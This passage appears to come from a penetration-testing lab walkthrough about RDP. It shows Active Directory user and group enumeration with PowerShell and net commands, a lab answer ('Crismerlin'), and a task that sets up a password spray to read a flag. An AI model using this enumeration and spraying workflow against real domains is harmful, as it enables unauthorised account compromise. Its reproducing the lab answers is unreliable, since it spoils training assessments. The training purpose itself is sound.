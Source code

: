 ```
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

With the established RDP session, students will proceed to open `PowerShell` and query the `Remote Desktop Users` group, finding another user in the group:

Code: powershell

```powershell
net localgroup "Remote Desktop Users"
```

```
PS C:\Users\helen> net localgroup "Remote Desktop Users"

Alias name     Remote Desktop Users
Comment        Members in this group are granted the right to logon remotely

Members

-------------------------------------------------------------------------------
INLANEFREIGHT\{hidden}
INLANEFREIGHT\helen
The command completed successfully.
```

Answer: `Crismerlin`

# Remote Desktop Service (RDP)

## Question 2

### "Perform a Password Spray using Helen's credentials. Connect with the account you found and read the flag located at C:\\Flags\\RDPflag.txt"

Using the previous spawned target and RDP session, students will proceed to enumerate the users in the domain using `Get-ADUser` and will note down the users' return from the output:

Code: powershell

```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName
```

```
PS C:\Users\helen> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName

Administrator
Guest
krbtgt
Redpostmanrd
Snowfreeze
Lich
Crismerlin
Helen
Tiltmanx
Maria
Jhomil
Thael
Leonvqz
Frewdy
Josias
Thesuperteacher
```